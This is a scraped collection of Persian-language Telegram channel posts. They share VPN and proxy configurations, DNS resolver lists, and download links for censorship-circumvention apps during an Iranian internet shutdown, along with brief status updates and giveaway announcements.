پروکسی متصل صبر کنید :

https://t.me/socks?server=62.220.126.92&port=32024#

## saministamm — post 62669

متصل برای WIFI :
socks://37.32.15.207:8888?type=tcp#saministamm

## saministamm — post 62668

🔴 وضعیت اینترنت‌ها بدتر شده و خیلی‌ها مجددا قطع شدن.

## saministamm — post 62667

🚨سخنگوی دولت: پس از دور شدن سایه جنگ وضعیت اینترنت به تدریج به حالت عادی تغییر می کند.

## saministamm — post 62666

ترکیب کنید وصل میشه :
vless://4b506123-3d41-4d5b-b5ae-00debe145d68@185.143.233.5:2083?encryption=none&fp=firefox&host=p1.sesrsa.com&path=%2F&security=tls&sni=sub.sesrsa.com&type=ws#saministamm

## saministamm — post 62665

ترکیبی

vless://59bc19e5-9384-45ea-99c6-0fc412975eee@adler-1g.adelshoop.net:80/?type=ws&encryption=none&flow=&path=%2F#@saministamm

@saministamm

## saministamm — post 62663

  <a href="https://t.me/saministamm/62663" target="_blank">📎 Download file</a>

با صبر زیاد وصله.
سرور نپسترنت | npv
دانلود نکنید بقیه وصل بمونن.
سرور نپسترنت متصل تست شده✅
channel : @saministamm✉️

## saministamm — post 62662

ویتوری + سایفون

vless://937dde02-4ce6-4f0d-a3be-27aef7d3ef46@s4.tehranionliine.ir:80?path=%2F&security=&encryption=none&type=ws#@saministamm

@saministamm

## saministamm — post 62661

  

🚨اینم از اینترنت پرو :

## saministamm — post 62660

SlipNet :

slipnet-enc://AVAJgxRhDQH4yWfiXDcszlxdTav5YP+g2GPNn6rKhBSNKg4WuxAdlANg1KJNafrzhs0f0i3or7Xykn1jvNEJEYTp9bGv75HZ+NnN1KaIolv0ETs8C+PrdzqmxRlJsNBKaF6hXjg0bII/7ZrthZhsV8ok00qEvuu2T56GrPhSbY5KiYoL5a+E0imMggGaeszYi9f0+YyU6ttT3gZrqYEKsx8KZeXHBxx/1qRPJ8ST0gr543eUVcDb7l0NIhGOV50n9c3AllSdh6rbBzcy0aIgQivhuy/o78oL5b8fTo6KK4WVIla+25OCziyywvU90emOjr/M/r+WExLMWoIVEVi+Uj60Okn44IcjG7drzM0RiQkqy8mjvFniY0l3FVz2tXg5UnA+Kvac9BI+6fwMWSaOoBNYq7uzJkQ9Xm44DVnHOGScnVRInD637NzxRA6PqKmYs+jsQUYU8RcjRluYTdD4q00tTGkSJLvXBBW518jlCtBUb+i8MihnSZa3hEQ7yLX0hYZLFdZh6jP4UmRDz28GPrSF6DmiPZP/XkcVwGWXLCtX3h2FRB9f9fP5006ulVkH4AHLPH57S1nh4cxdzWGwRDFp3QlOmykor2rCm1eNSuLvsSunTOq7yo5o+1GWkmbmEOIiPIv25Gf4P0+zak4LoHCsqEHq9UAYrx3GSjI6Ymgwpr7TSh4JNdlbSIo2+GDhu59rqGtS7IH/JoeEjnJCzS4dU6tBbzA+19t1V1CjauY1QjstVfl1ucMVNJZcb+R9

slipnet-enc://ARcLX2MBExkIF0qLxqwCjf3sYLkJyRNK7IP6gGsC+VcSuu4aBPn8tp6gMImP0B7X4MOblQqncXP7J5F0LTYi1H6ZDoGDTIOl4JQpOhfYztL4mNicAzvcgDfENmXJvGWk3HFaE5v+5f3kBLzb//BNQPE0LcwkB5OBLNiSiGjA3tj/NQLcitFwgmPbaM5sf/9KpYyKU65bYC8Tw3WSqU/dKev0tnPM9Mb564L9lH6AIpsDHeUoBl0hFSKUGcMFrgwgL3ErYDPcQdP3/ReUygsgzHGqc4FN6KlJxq/QJZPCC/Rg2hUFZ7hoCchL1YBXhmm/b9t81gSIhYb+xrEKBPTtqZn1jRdO+XWLLarYOvR/z8DvRECdq6VXaKMlE7CD9YhUb5Hb3HUT2w6G/nh69tG6BWUsFlVBZqE21VUY8AC58XaM25EfC4H/paXD0Hhw58rXueNfIC7kL+6jeP+J778n8b8PudlhHb/WEJ3FZv0yKXFwJ6NIaEezypGzRzOM1vlA/wgGqIDkChwPbvZJSPaCD43yYkaK3TTjTGaVSL2XhH+eZiLrRN5sTzzKayaIHsnrrTPGH9vTcKZqo7/y1V9cK6m8aZ8MVNm074sqGgbQTfPhp7n+1epqnCSGiJ1dQD93wXSKy9Iu2G04Fr7gcD1LIZTvjVsQDWzI5hSoOxnV0Ep6Tin5TnGdtSuS0ueInfJQd18=

slipnet-enc://AYXESgWejlY9x9O3dm3mUYau90VqfwdPYylQnVeMFcVOP/RSbqtUaLrnd+5CNBbBx2TQkONBWpxKA0mswoi7NxpcnixuxMRMw/AHnJzS4lPO2hwjH4aO8QaGZoV+0GnHX15obfVkyusOmbjIr9LicWOWvwNvcLc126zOdxCCyXZlQnI1QikaUG9KXEvzm7Lh9Om9UrvM4egoIDCkKfXeuuHvJbtzW+j8O/drqQqZpSvZhzbDP7k+KED4yuq+9qcFDdYLm2M0ODztG9CaYv5Rn8BUQglQK1bXjB5rT7dJf6NrOz2BkfB03/+HET8VBBacyHDRm6Mwy1uWP8HscFjsn8WmXmJ3WEwy+Q3G+fw7NWK7lDPqPwVDKvg49e/4pm7SU4w/5C8Oe6ce4qeTRZb+efoLl17kYletXR27tDaq0q7UzWjPbf545gbDC3nJVeoYs/VoZUYZGO+hs1+Bb5GOsO5OxmCNImy2FHgs1d0Ztve4gqU8G8ZsuNhLI9nGPtr4qN3EkNHN+Fctl0giiBvx5cIk9TGmyolU6kfEch6l8WQS+REeAoUNr63wSNPxIgpL17auxT/JtHJjUUoHsIEUsGbTIC8rMLhU7bWw0UZfCrtECV/xuD3+FAYH7xRBkMnyIR+0wMOKi+lqN5pQRspWzFVz

slipnet-enc://AdMjBHw0IlLJHgI19ZBkr3wtS18BSGPh9hvlBjJOHLJfvc+ds3xLrixerrLiFwAr4yYKy2tT/Co9jeCDHrzbAp1HJ0eq1ybsL+kxpGBKhImqaApodjlE2MSvigQTBIuAJv736giTh5yAA0y/yQzWubnqChwn9M0VJ+XUcnRvYBThQCLbgqxjF6aP7G/R+P99wwBN+euf63yM/bBRsrvNTKDkBEZsIF42Z53e/UpfI6zJUaP0/piKAch4t8TYJCX4SXqEV8XqAOGPph8nGw5Gd/kyo38ufrEPsPiWZ7CwEa6Rm6ukFoTmkJD6hwOjK35Pv3khN/5uiSGz/lN7bOTj3q+BmkqMg+18qPjzULU+UbfEwzqKV/0UYOKJIfQsuhTmuVrS02Ut9kBxJPnECAtiaIuFxSU/GJGNwqGFK0Q1PM48tHzSP7ATez6Osq9+/TmAoXt0Ovchf/EILf2MJhtApjk0BYUdGGmV3/dBfQdk5JPUgwL/zlOKRE/0gj3J4dmRuOJGZ7nViMrBEcwU092AoGSnWpIuCtMhNMEgEVgXEE8ng5o2NOQLASAK/oe2ypZETFn+Nl4kcmE5S7/CtPuF4YpwK3bwYvnLMmuj8q6d/8KCXdvhNJuaVwUDrHUpDteWMotIrf4umO6k4M04SCm6w7ItZ2ypLnMk9m8D3lYj1sy29M0IbroHexJlm7WYBWxBGVtAu573FxJiXhlF0Y6YCe0WG/pBVgwmPMOg/wZFE1TR8aayR3GMFtz7iz8MJRuJaOtNCHHZbkItbFU=

slipnet-enc://Ad5onvBUBC89ZQtzZjM4BPIoQqjozjppgXYjOy/oyYSVJLLFjBFi/u0IJdfNn9Up8mxy9Pug7Tue5gypW4BNTmscOgRijONEOn45Nj8pe+QQbcETFH+huvYzydbfq7oZygeNJBg65YXivFNsefsscjg/u0UsUv32/gC8AzcyY8N81ZBQ5NklpSIIfzbXup7SL3YTyYSPQ+uMxBcrV8gnQrAi61TRhO0oiYPpgheluH7i6Q3hFfBon44sQv+iQJnrbmBPK7Wq8d+926vf/j0lGjO4QD2a4ompVwFDTon71A+35EnXoFi2brbvt4HCFVkZzU1oJFYxkRSqj+ygPblXC1QhWJUO5sSiLKPijtmnkBlx89/fjhMyKUA2iIwmfrID3GLwTiOmJcVpYCY/MDEGf1F2CLYhHQNR2X8w0Qhy54yeP8LPUSHa7PQWGvMKZmKzfKQwK5g3NSrX+5qP2lRvbhcEozx0zphIt9gSUTinhKzEYjUcFmNSwOLEpfJkEzRrNMTzcrXixdosuZTLwaHg1N9nQwniq99F+5Hto78ljdNx7d5aarENsW09U3cQ42ASHx7zym2jkL6+cuiApEj8dDncVK3wolu+LsNSjYJycD2BcbderFMur0FcZnlfZvbXmHlQWsUY91JZJATLKue5WYjUYcrmtEhPMv9tVMcpA+OYhV4qX2ztzH6mHqGBRJ8Vfq9VLMdJcl49oY1pjsTT4EVIn/yTuc8Dyazb+VDFvNhyvXFENbilvGO7H0xDAr/JpsZrfvyIGHnP6A==

https://t.me/socks?server=127.0.0.1&port=10880
@saministamm

## Skyportall — post 10620

ایموجی جدید 🫪

## Skyportall — post 10617

vless://a5b22dd9-872b-4917-b691-317166d519e7@thany.tech:443?path=%2F&security=tls&alpn=h2%2Chttp%2F1.1&encryption=none&insecure=1&host=cloudinohost.com&fp=chrome&type=ws&allowInsecure=1&sni=cloudinohost.com#%40Skyportall

💙V2ray
➕psiphon
📱

⚡️ @Skyportall

## Skyportall — post 10614

vless://8429b6cd-342c-4cf5-9fc0-0044b27e27be@gift.nazincup.ir:80?path=%2Fapi&security=none&encryption=none&host=gift.nazincup.ir&type=ws#%40Skyportall

ترکیبی هم میشه زد

💙V2ray
➕psiphon
📱

⚡️ @Skyportall

## Skyportall — post 10613

  <a href="https://t.me/Skyportall/10613" target="_blank">📎 Download file</a>

فایل حاوی چندین DNS مختلف برای برنامه بالا
💎

⚡️ @Skyportall

## Skyportall — post 10612

https://biaupload.net/do.php?filename=org-50da4a3e49d21.zip

لینک دانلود نسخه جدید White Dns
💜

✅اگه فقط بخواین تلگرام رو باز کنید از بالای برنامه روی Proxy mode بذارین و وصلش کنید و در نهایت وقتی وصل شد به این پروکسی توی تلگرام وصل شید:
https://t.me/socks?server=127.0.0.1&port=10886

⚡️ @Skyportall

## Skyportall — post 10611

  <a href="telegram/content/Skyportall_10611_1778607657.webm" target="_blank">🎬 Download video</a>

بخوابیم
⛈
شبتون خوش جیگرا
🌟

## Skyportall — post 10610

سریع زدم رو نپستر وصلههه بدون ترکیبی😍

## Skyportall — post 10609

vless://58f8f6fa-27dd-4859-8c63-021e32547fc0@gift.nazincup.ir:80?path=%2Fapi&security=none&encryption=none&host=gift.nazincup.ir&type=ws#%40Skyportall

💙V2ray
➕psiphon
📱

⚡️ @Skyportall

## Skyportall — post 10608

  <a href="telegram/content/Skyportall_10608_1778607658.webm" target="_blank">🎬 Download video</a>

قرعه کشی یک گیگ کانفیگ بریم بریم براتون عزیزای دلم
❤️ 
📌ساعت 21:40 کامنت های همین پستی که میبینید وا میشه و هفتمین شخصی که🎰 سه تا 7 بیاره برنده میشه.
✅

## Skyportall — post 10607

  <a href="telegram/content/Skyportall_10607_1778607658.webm" target="_blank">🎬 Download video</a>

قرعه کشی یک گیگ کانفیگ بریم بریم براتون عزیزای دلم
❤️ 
📌ساعت 21:40 کامنت های همین پستی که میبینید وا میشه و هفتمین شخصی که🎰 سه تا 7 بیاره برنده میشه.
✅

## Skyportall — post 10606

  <a href="telegram/content/Skyportall_10606_1778607659.webm" target="_blank">🎬 Download video</a>

قرعه کشی یک گیگ کانفیگ بریم بریم براتون عزیزای دلم
❤️ 
📌ساعت 21:40 کامنت های همین پستی که میبینید وا میشه و هفتمین شخصی که🎰 سه تا 7 بیاره برنده میشه.
✅

## Skyportall — post 10596

  <a href="telegram/content/Skyportall_10596_1778607659.webm" target="_blank">🎬 Download video</a>

قرعه کشی یک گیگ کانفیگ بریم بریم براتون عزیزای دلم
❤️

📌ساعت 21:40
کامنت های همین پستی که میبینید وا میشه و هفتمین شخصی که🎰 سه تا 7 بیاره برنده میشه.
✅

## Skyportall — post 10595

  <a href="telegram/content/Skyportall_10595_1778607660.webm" target="_blank">🎬 Download video</a>

یه عده از دوستانی که برای باتی که گذاشتیم رفرال بردن، اگر موفق به دریافت هدیه اش نشدید با پشتیبانیش در ارتباط باشید. ظاهراً موجودی تمام شده بوده
😕
❤️ دوستون دارم و بوس

## Skyportall — post 10591

https://t.me/proxy?server=194.120.230.199&port=25565&secret=dd79e344818749bd7ac519130220c25d09&channel=@skyportall

tg://proxy?server=157.90.124.2&port=4455&secret=dd104462821249bd7ac519130220c25d09#@skyportall

https://t.me/proxy?server=88.99.27.186&port=443&secret=dd104462821249bd7ac519130220c25d09

https://t.me/proxy?server=77.42.27.171&port=4455&secret=dd104462821249bd7ac519130220c25d09

همراه با کانفیگ جواب میدن
✅

⚡️ @Skyportall

## Skyportall — post 10590

وصله تشکر
یه ۲۵ مگ نصیبمون شد🧃

## Skyportall — post 10589

vless://08fd1dd7-1122-4fbe-b976-8d9abef5ca13@gift.nazincup.ir:80?path=%2Fapi&security=none&encryption=none&host=gift.nazincup.ir&type=ws#%40skyportall

بزنید نپستر یا هم ترکیبی✅

⚡️ @Skyportall

## Skyportall — post 10588

vless://5668af8c-38ca-4afa-8561-c6d703487cee@useredge1.noroozmobarak.com:80?path=%2Fwebpanel&security=none&encryption=none&host=jahan3.irbattery123.com&type=ws#%40%F0%9D%97%A6%F0%9D%97%B8%F0%9D%98%86%F0%9D%97%BD%F0%9D%97%BC%F0%9D%97%BF%F0%9D%98%81%F0%9D%97%AE%F0%9D%97%B9%F0%9D%97%B9

وصل
✅
ترکیبی هم میشه زد

## Skyportall — post 10587

  <a href="telegram/content/Skyportall_10587_1778607660.webm" target="_blank">🎬 Download video</a>

جفتش ده گیگه فعلا حجم دارن. باگ بخوره بعد اتمام حجمم میشه زد
😊

## Skyportall — post 10586

udp://46.209.44.3

روی فرکانس 5 و 3 تست کنید. منطقه ایه البته.
✅

## Skyportall — post 10584

  

جفتش ده گیگه فعلا حجم دارن. باگ بخوره بعد اتمام حجمم میشه زد
😊

## hamedvpns — post 18807

  <a href="https://t.me/hamedvpns/18807" target="_blank">📎 Download file</a>

ارسالی از ادمین های گروه خودمون

تست شده و کارآمد

بر روی اکثر سرورها کار میکنند

با وایتDNS کاملا اوکی هستند ، اگر سرور خوبی داشته باشید میتونید رو حالت Full VPN حتی اینستا هم بالا بیارید راحت.

آموزش اتصال در وایت dns 👉

نصب برنامه وایتDNS 👉👉

..

❤️اشتراک‌گذاری یادتون نره🌈

‌‌@hamedvpns ☑️

لایک   |   Like 👍❤️
اشتراک بزارین   |   Share ⭐️

## hamedvpns — post 18804

🚀 سرور اهدایی از چنل @Masir_Sefid

قابل استفاده در WhiteDNS و ...

stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoiQE1hc2lyX1NlZmlk8J-ViigxKSIsInNlcnZlciI6eyJkb21haW4iOiJzLm80cy5zaG9wIiwiZW5jcnlwdGlvbl9rZXkiOiJUZWxlZ3JhbS1DaGFubmVsLS0tPkBNYXNpcl9TZWZpZCIsImVuY3J5cHRpb25fbWV0aG9kIjoxfX19
stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoiQE1hc2lyX1NlZmlk8J-ViigyKSIsInNlcnZlciI6eyJkb21haW4iOiJzMi5vNHMuc2hvcCIsImVuY3J5cHRpb25fa2V5IjoiVGVsZWdyYW0tQ2hhbm5lbC0tLT5ATWFzaXJfU2VmaWQiLCJlbmNyeXB0aW9uX21ldGhvZCI6MX19fQ
stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoiQE1hc2lyX1NlZmlk8J-ViigzKSIsInNlcnZlciI6eyJkb21haW4iOiJzMy5vNHMuc2hvcCIsImVuY3J5cHRpb25fa2V5IjoiVGVsZWdyYW0tQ2hhbm5lbC0tLT5ATWFzaXJfU2VmaWQiLCJlbmNyeXB0aW9uX21ldGhvZCI6MX19fQ
stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoiQE1hc2lyX1NlZmlk8J-Viig0KSIsInNlcnZlciI6eyJkb21haW4iOiJzNC5vNHMuc2hvcCIsImVuY3J5cHRpb25fa2V5IjoiVGVsZWdyYW0tQ2hhbm5lbC0tLT5ATWFzaXJfU2VmaWQiLCJlbmNyeXB0aW9uX21ldGhvZCI6MX19fQ
stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoiQE1hc2lyX1NlZmlk8J-Viig1KSIsInNlcnZlciI6eyJkb21haW4iOiJzNS5vNHMuc2hvcCIsImVuY3J5cHRpb25fa2V5IjoiVGVsZWdyYW0tQ2hhbm5lbC0tLT5ATWFzaXJfU2VmaWQiLCJlbmNyeXB0aW9uX21ldGhvZCI6MX19fQ

@WhiteDNS

❤️اشتراک‌گذاری یادتون نره🌈

‌‌@hamedvpns ☑️

لایک   |   Like 👍❤️
اشتراک بزارین   |   Share ⭐️

## hamedvpns — post 18803

آدم خوب خورد به پستتون نگهش داريد؛ اگه رفيقه رفاقت كنيد، اگه شريكه شراكت كنيد، اگه ازش خوشتون مياد بريد تو رابطه،
اگه دوسش داريد باهاش ازدواج، خلاصه يكارى بكنيد.
آدم خوب خيلى كم پيدا ميشه ...

❤️اشتراک‌گذاری یادتون نره🌈

‌‌@hamedvpns ☑️

لایک   |   Like 👍❤️
اشتراک بزارین   |   Share ⭐️

## hamedvpns — post 18802

🚨ᑎΞᗯ ᑌᑭᗪᗩTΞ
🚀 نسخه جدید منتشر شد برای Devtahas/CG_BPB:

✅ v9.9 (v9.9)

**Full Changelog**: https://github.com/Devtahas/CG_BPB/compare/v9.8...v9.9
نسخه ی تستی برای عموم منشتر شد
بر اساس تست هایی که انجام شده برای اینترنت مخابرات و وای فای اوکی بوده و وصل شده
ممنون میشم باگ های نرم افزار رو بهمون گزارش بدین❤
اگه به هر دلیلی نمیتونید از گیت هاب دانلود کنید از این لینک استفاده کنید
https://scorpian.ir/proxy/asset/Devtahas/CG_BPB/417396600

🔗 مشاهده در گیت‌هاب
𓄂𓆃

## hamedvpns — post 18800

لینک دانلود داخلی :

https://uplod.ir/5yw4yniz1ugc/WhiteDNS-1.2.0-universal.zip.htm

(اون htm جلوش رو پاک کنید)

https://punkpaste.ir/f/WhiteDNS-1-2-0-unive-w499md

❤️اشتراک‌گذاری یادتون نره🌈

‌‌@hamedvpns ☑️

لایک   |   Like 👍❤️
اشتراک بزارین   |   Share ⭐️

## hamedvpns — post 18795

  <a href="https://t.me/hamedvpns/18795" target="_blank">📎 Download file</a>

سلام به همه دوستان

نسخه جدید WhiteDNS آماده شد. ممنون از همه کسانی که نسخه‌های قبلی رو نصب کردند، تست گرفتند، لاگ فرستادند و با فیدبک‌هاشون کمک کردند مشکلات رو پیدا و برطرف کنیم 🙏

تمرکز اصلی این نسخه روی بهبودهای داخلی VPN در خود WhiteDNS بوده است. هدف این بود که اتصال کامل‌تر، پایدارتر و مستقل‌تر شود تا کاربران برای باز شدن سایت‌ها و اپ‌ها دیگر نیازی به NekoBox، NVPN یا راه‌حل‌های مشابه نداشته باشند.

در این نسخه مسیر DNS و ترافیک داخل خود WhiteDNS بهتر مدیریت می‌شود، بنابراین تجربه اتصال ساده‌تر شده و کاربر می‌تواند مستقیماً از داخل اپ وصل شود.

✅ نسخه اپلیکیشن به 1.2.0 ارتقا پیدا کرده
✅ حالت Full VPN کامل‌تر و پایدارتر شده
✅ حالا DNS هم داخل خود WhiteDNS مدیریت می‌شود
✅ دیگر برای باز شدن سایت‌ها و اپ‌ها نیازی به NekoBox، NVPN یا ترفندهای مشابه ندارید
✅ مشکل وصل بودن VPN ولی باز نشدن بعضی سایت‌ها و اپ‌ها برطرف شده
✅ اتصال روی اینترنت‌های کند و Resolverهای دیرپاسخ بهتر کار می‌کند
✅ صفحه اصلی ساده‌تر شده و انتخاب سرور، Resolver و نوع تنظیمات راحت‌تر انجام می‌شود
✅ اگر سرور یا Resolver درست تنظیم نشده باشد، اپ واضح‌تر نشان می‌دهد چه چیزی کم است
✅ می‌توانید تنظیمات پیشرفته را با نام دلخواه ذخیره کنید
✅ امکان ساخت چند پروفایل تنظیمات پیشرفته اضافه شده
✅ می‌توانید هر زمان بین پروفایل‌های ذخیره‌شده تنظیمات پیشرفته جابه‌جا شوید
✅ امکان برگشت سریع به تنظیمات پیش‌فرض اضافه شده
✅ بعد از اتصال، نام پروفایل سرور، Resolver و تنظیمات فعال نمایش داده می‌شود
✅ امکان خروجی گرفتن فایل client_config.toml از داخل اپ اضافه شده
✅ ظاهر صفحه اتصال و دکمه Connect/Stop مرتب‌تر و جمع‌وجورتر شده

🔗 GitHub:
https://github.com/iampedii/WhiteDNS/releases/tag/1.2.0

از همراهی و حمایت شما ممنونیم ❤️

1⃣ WhiteDNS

## hamedvpns — post 18793

  <a href="https://t.me/hamedvpns/18793" target="_blank">📎 Download file</a>

✅ نسخه جدید برنامه V2rayNG اندروید

💡نسخه 2.1.7

▪️تغییرات:
• فعال‌سازی مستقل IPv6
• رفع باگ‌ها و بهبود عملکرد
• تنظیمات جدید KCP (MTU/TTI)
• میانبر سریع شروع/توقف سرویس
• انتخاب بصری پکیج‌ها در Routing
• بهبود آپدیت اشتراک‌ها در پس‌زمینه
• امکان تعیین هم‌زمانی تست تأخیر
• آپدیت هسته به Xray-core v26.5.9
• پورت داینامیک برای SOCKS محلی
• اضافه شدن Chain Proxy و Browser Dialer
• پشتیبانی از یوزرنیم و پسورد برای SOCKS محلی
• غیرفعال‌سازی پراکسی محلی یا UDP در SOCKS5

📥 لینک دانلود داخلی 👉👉

❤️اشتراک‌گذاری یادتون نره🌈

‌‌@hamedvpns ☑️

لایک   |   Like 👍❤️
اشتراک بزارین   |   Share ⭐️

## hamedvpns — post 18792

عشقای دل بفرمایید 🚀DNS Resolver

تست شده و آماده اتصال

178.252.178.205:53
109.230.89.139:53
185.141.171.187:53
217.219.162.154:53
217.219.120.82:53
185.106.144.149:53
77.104.98.70:53
5.22.193.5:53
80.191.255.18:53
5.160.104.6:53
5.202.53.22:53
94.184.10.132:53
94.184.10.135:53
5.56.132.97:53
185.105.101.58:53
185.208.76.104:53
2.189.1.1:53
213.176.123.5:53
217.219.34.42:53
37.148.35.12:53
46.209.25.195:53
5.160.171.47:53
46.245.68.179:53
77.104.103.130:53
79.175.172.101:53
81.28.253.252:53
93.118.148.30:53
94.184.10.134:53
185.120.220.194:53
185.140.58.2:53
217.219.76.102:53
37.10.67.10:53
5.160.171.36:53
85.185.82.34:53
94.182.214.34:53
10.104.209.71:53
185.206.229.32:53
185.231.183.26:53
185.66.228.26:53
217.219.14.162:53
37.148.33.206:53
37.148.39.161:53
5.235.208.128:53
80.191.255.22:53
80.191.221.33:53
81.16.124.73:53
81.16.116.138:53
95.38.15.247:53
94.184.10.133:53
195.245.70.210:53
2.180.22.81:53
5.202.11.235:53
5.239.245.245:53
80.210.40.37:53
80.210.44.187:53
94.184.10.131:53
2.189.1.19:53
217.219.162.157:53
79.175.172.98:53
79.127.2.89:53
81.29.248.103:53
81.12.34.188:53
95.38.72.23:53
31.7.70.68:53
31.7.78.205:53
62.60.196.11:53
78.111.11.12:53
185.128.82.2:53
37.32.127.133:53
80.191.47.2:53
85.185.1.10:53
89.40.78.92:53
94.182.154.105:53
185.172.68.72:53
77.238.123.237:53
212.23.216.123:53
217.219.67.130:53
217.219.76.31:53
2.188.21.130:53

کپی کنید بزنید وایتDNS یا هر چی که دوست دارین و بهش متصل بشید .

با هر سروری متصل میشن ✅

❤️اشتراک‌گذاری یادتون نره🌈

‌‌@hamedvpns ☑️

لایک   |   Like 👍❤️
اشتراک بزارین   |   Share ⭐️

## hamedvpns — post 18791

ربات دانلود از GooglePlay 😎

فقط کافیه اسم برنامه مورد نظرتون رو جستجو بزنید .

لینک ورود به ربات :
@GooglePlayAPKDownloaderbot

❤️اشتراک‌گذاری یادتون نره🌈

‌‌@hamedvpns ☑️

لایک   |   Like 👍❤️
اشتراک بزارین   |   Share ⭐️

## hamedvpns — post 18790

دوستان هر کی هر چند تا dns resolver دم دست داره

با هر سروری که میخواد تست بشه

خود سرور با کی سرور رو بده
و بعلاوه dns resolver

تا درعرض چند ثانیه تا دقیقه براش جوابش رو بدم

بالای چند هزار تا هم باشه dns resolver نهایت تا 10 دقیقه میگم چیا کار میده

بفرستین برام جوابشو بدم

پر سرعتتریناشون رو میدم تا برین با سرور خودتون عشق کنید.

زیر همین پست برام بفرستین جواب همه رو میدم بر اساس نت خودتون .

آدرس پیویم جهت ارسال dns و سرورهاتون :
@hamedp71

..

## hamedvpns — post 18788

🚨ᑎΞᗯ ᑌᑭᗪᗩTΞ
🚀 نسخه جدید منتشر شد برای Devtahas/CG_BPB:

✅ 9.3 (9.3)

توضیحی موجود نیست.

🔗 مشاهده در گیت‌هاب
𓄂𓆃

## hamedvpns — post 18786

WhiteDNS 1.0 ✅DNSنسخه اصلی وایت🚀

برای نصب نسخه رسمی باید نسخه بتا رو کامل حذف کنید تا نسخه رسمی نصب بشه 😎

Universal :
https://uplod.ir/zv090o7s84hc/WhiteDNS-1.0.0-universal._.htm

Armv64-v8A :
https://uplod.ir/qk0f5avj15qp/WhiteDNS-1.0.0-arm64-v8a._.htm

Armeabi-v7A :
https://uplod.ir/nzq044qaheij/WhiteDNS-1.0.0-armeabi-v7a._.htm

X86 :
https://uplod.ir/2m9vpdf8ipwl/WhiteDNS-1.0.0-x86._.htm

لینک دانلود نسخه رسمی وایتDNS 👆👆👆

بعد از دانلود تغییر نام بزنید و htm را به apk تغییر بدید و بعد به راحتی نصب کنید ✅

..
‌‌@hamedvpns ☑️

لایک   |   Like 👍❤️
اشتراک بزارین   |   Share ⭐️

## hamedvpns — post 18781

  <a href="https://t.me/hamedvpns/18781" target="_blank">📎 Download file</a>

🚀 انتشار رسمی WhiteDNS به صورت متن‌باز

دوستان عزیز ،

پروژه WhiteDNS رسماً به صورت Open Source روی GitHub منتشر شد.

این نسخه، اولین ریلیز رسمی 1.0.0 بعد از ۷ نسخه بتا است و از این به بعد مسیر توسعه پروژه شفاف‌تر، عمومی‌تر و با مشارکت جامعه ادامه پیدا می‌کند.

در این نسخه، پروفایل‌های پیش‌فرض WhiteDNS از داخل اپ حذف شده‌اند تا برنامه به شکل مستقل‌تر و عمومی‌تر قابل استفاده باشد.

👇👇👇👇👇👇👇👇👇👇👇👇

قبل از آپدیت به این ورژن ، تمام پروفایل های خودتون رو Export بگیرید. ورژن جدید دیگه سرور های WhiteDNS را در اپ ندارد.

ورژن جدید اپ Sign شده هستش و از لحاظ امنیتی بهبود یافته.

برای نصب، ورژن قبلی اپ باید به صورت کلی از روی دستگاه شما حذف شود.

از این ورژن به بعد، نیازی برای پاک کردن اپ در هر آپدیت نیست.

👆👆👆👆👆👆👆👆👆👆👆
از این مرحله به بعد، توسعه‌دهندگان و کاربران می‌توانند پروژه را بررسی کنند، مشکل‌ها را گزارش دهند و در بهبود آن مشارکت داشته باشند.

🔗 GitHub :
https://github.com/iampedii/WhiteDNS

از همراهی و حمایت شما ممنونیم ❤️

@WhiteDNS

..
‌‌@hamedvpns ☑️

لایک   |   Like 👍❤️
اشتراک بزارین   |   Share ⭐

## blackRay — post 11021

  <a href="https://t.me/blackRay/11021" target="_blank">📎 Download file</a>

Password: @blackRay
#موقت_ایرانسل
منطقه ای هست اگه اتصالتون پایدار هست تست کنید ، صبرکنید تو تلگرام ، پینگ نمیده
❌.
ریکشن یادتون نره 
🫀

✉️ @blackRay

## blackRay — post 10997

  

🌐 دقیقاً دو ماه پیش در ۲۸ فوریه، #ایران به دلیل قطع دسترسی به اینترنت جهانی توسط مقامات، در تاریکی دیجیتال فرو رفت.

شاخص‌ها نشان می‌دهند که این خاموشی اکنون پس از ۱۴۱۶ ساعت و با وجود تلاش‌های رژیم برای معرفی دسترسی طبقه‌بندی شده برای گروه‌های ویژه، وارد شصتمین روز خود شده است.

## blackRay — post 10996

  <a href="telegram/content/blackRay_10996_1778607663.mp4" target="_blank">🎬 Download video</a>

🎬 Video

## blackRay — post 10995

مثل اینکه دوباره بسته شد.
ایرانسل احتمالا هنوز وصله

## blackRay — post 10993

  <a href="https://t.me/blackRay/10993" target="_blank">📎 Download file</a>

Password: @blackRay
#موقت
منطقه ای هست اگه اتصالتون پایدار هست تست کنید ، صبرکنید تو تلگرام ، پینگ نمیده
❌.
ریکشن یادتون نره 
🫀

✉️ @blackRay

## blackRay — post 10987

  <a href="https://t.me/blackRay/10987" target="_blank">📎 Download file</a>

Password: @blackRay
#موقت
منطقه ای هست اگه اتصالتون پایدار هست تست کنید ، صبرکنید تو تلگرام ، پینگ نمیده
❌.
ریکشن یادتون نره 
🫀

✉️ @blackRay

## blackRay — post 10986

کلود باز شد

## blackRay — post 10985

ایپی کلودفلر بود فکر کنم دوباره بسته شد از ساعت 3 اختلال داشت هی قطع وصل میشد یکم شل کردن شاید امیدی برای باز شدنش باشه معلوم نیست.

## blackRay — post 10982

وصل داداش

## blackRay — post 10981

وصله قویییسس

## blackRay — post 10980

ایرانسل تهران وصل

## blackRay — post 10979

  <a href="https://t.me/blackRay/10979" target="_blank">📎 Download file</a>

Password: @blackRay
#موقت
منطقه ای هست اگه اتصالتون پایدار هست تست کنید ، صبرکنید تو تلگرام ، پینگ نمیده
❌.
ریکشن یادتون نره 
🫀

✉️ @blackRay

## blackRay — post 10977

طبق گزارشات کاربران نت همراه اول بدون فیلتر شده در بعضی شهرها ، آپدیت فایروال هست.

## blackRay — post 10976

